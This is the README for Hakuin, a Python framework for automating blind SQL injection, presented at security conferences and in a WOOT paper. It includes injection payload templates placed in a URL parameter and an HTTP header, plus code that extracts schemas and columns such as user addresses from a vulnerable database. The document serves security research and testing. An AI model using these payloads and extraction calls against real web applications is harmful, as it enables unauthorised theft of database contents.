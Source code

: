 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, such as pre-trained and adaptive language models, opportunistic guessing, and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `SQLite`, `MySQL`, `PSQL` (PostgreSQL), and `MSSQL` (SQL Server) DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/PSQL/MSSQL
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import SQLite, MySQL, PSQL, MSSQL

class StatusRequester(Requester):
    ...

async def main():
    ext = await Extractor(requester=StatusRequester(), dbms=SQLite())
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = await ext.extract_schema(strategy='model')
```

##### Example 2 - Extracting only Table/Column Names
```python
tables = await ext.extract_table_names(strategy='model')
columns = await ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Generic Columns
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')
```

##### Example 2 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')
```

##### Example 3 - Extracting Integer Columns
```python
res = await ext.extract_column_int(table='users', column='id')
```

##### Example 4 - Extracting Float Columns
```python
res = await ext.extract_column_float(table='products', column='price')
```

##### Example 5 - Extracting Blob (Binary Data) Columns
```python
res = await ext.extract_column_blob(table='users', column='id')
```

More examples can be found in the `tests` directory.


## Using Hakuin from the Command Line
Hakuin comes with a simple wrapper tool, `hk.py`, that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
